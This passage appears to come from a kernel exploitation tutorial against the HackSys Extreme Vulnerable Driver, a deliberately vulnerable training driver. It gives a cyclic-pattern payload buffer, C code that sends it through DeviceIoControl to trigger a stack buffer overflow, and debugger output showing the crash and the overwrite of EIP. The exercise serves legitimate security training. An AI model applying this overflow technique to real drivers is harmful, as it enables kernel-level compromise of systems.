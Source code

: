 ```c
  0x62, 0x6e, 0x7a, 0x61, 0x62, 0x6f, 0x62, 0x61, 0x62, 0x6f, 0x63, 0x61,
  0x62, 0x6f, 0x64, 0x61, 0x62, 0x6f, 0x65, 0x61, 0x62, 0x6f, 0x66, 0x61,
  0x62, 0x6f, 0x67, 0x61, 0x62, 0x6f, 0x68, 0x61, 0x62, 0x6f, 0x69, 0x61,
  0x62, 0x6f, 0x6a, 0x61, 0x62, 0x6f, 0x6b, 0x61, 0x62, 0x6f, 0x6c, 0x61,
  0x62, 0x6f, 0x6d, 0x61, 0x62, 0x6f, 0x6e, 0x61, 0x62, 0x6f, 0x6f, 0x61,
  0x62, 0x6f, 0x70, 0x61, 0x62, 0x6f, 0x71, 0x61, 0x62, 0x6f, 0x72, 0x61,
  0x62, 0x6f, 0x73, 0x61, 0x62, 0x6f, 0x74, 0x61, 0x62, 0x6f, 0x75, 0x61,
  0x62, 0x6f, 0x76, 0x61, 0x62, 0x6f, 0x77, 0x61, 0x62, 0x6f, 0x78, 0x61,
  0x62, 0x6f, 0x79, 0x61, 0x62, 0x6f, 0x7a, 0x61, 0x62, 0x70, 0x62, 0x61,
  0x62, 0x70, 0x63, 0x61, 0x62, 0x70, 0x64, 0x61, 0x62, 0x70, 0x65, 0x61,
  0x62, 0x70, 0x66, 0x61, 0x62, 0x70, 0x67, 0x61, 0x62, 0x70, 0x68, 0x61,
  0x62, 0x70, 0x69, 0x61, 0x62, 0x70, 0x6a, 0x61, 0x62, 0x70, 0x6b, 0x61,
  0x62, 0x70, 0x6c, 0x61, 0x62, 0x70, 0x6d, 0x61, 0x62, 0x70, 0x6e, 0x61,
  0x62, 0x70, 0x6f, 0x61, 0x62, 0x70, 0x70, 0x61, 0x62, 0x70, 0x71, 0x61,
  0x62, 0x70, 0x72, 0x61, 0x62, 0x70, 0x73, 0x61, 0x62, 0x70, 0x74, 0x61,
  0x62, 0x70, 0x75, 0x61, 0x62, 0x70, 0x76, 0x61, 0x62, 0x70, 0x77, 0x61,
  0x62, 0x70, 0x78, 0x61, 0x62, 0x70, 0x79, 0x61, 0x62, 0x70, 0x7a, 0x61
};
unsigned int __Ring0Payload_len = 2100;
```
<br>
We can now copy this buffer into our exploit code, do a `memcpy` of the 
Ring0Payload into the InputBuffer and then call `DeviceIoControl`  
<br>
```c
const char Ring0Payload[] = { 0x7a, 0x61, 0x61, ...};
int main()
{
    ...
    HANDLE hHeap = GetProcessHeap();
    LPVOID InBuffer = HeapAlloc(hHeap, HEAP_NO_SERIALIZE | HEAP_ZERO_MEMORY, 2100);
    memcpy(InBuffer, Ring0Payload, 2100);
    DWORD lpBytesReturned = 0;
    BOOL IOCTLSent = DeviceIoControl(
        hHEVD,
        HEVD_IOCTL_BUFFER_OVERFLOW_STACK,
        InBuffer,
        2100,
        NULL,
        0,
        &lpBytesReturned,
        NULL
    );
}
```
<br>
If we compile and run this our attached kernel debugger should break on a 
_Access Violation_.  
<br>
```
[+] HackSys Extreme Vulnerable Driver Loaded
****** HEVD_IOCTL_BUFFER_OVERFLOW_STACK ******
[+] UserBuffer: 0x000D8D30
[+] UserBuffer Size: 0x834
[+] KernelBuffer: 0x9A9032B4
[+] KernelBuffer Size: 0x800
[+] Triggering Buffer Overflow in Stack
Access violation - code c0000005 (!!! second chance !!!)
```
<br>
We can see the UserBuffer Size is 0x834 == 2100, and the KernelBuffer size is 
0x800 which is 0x34 bytes less than what we tried to copy in. If we inspect the 
registers we should see part of our pattern in EIP ( yours will be different ).\
<br>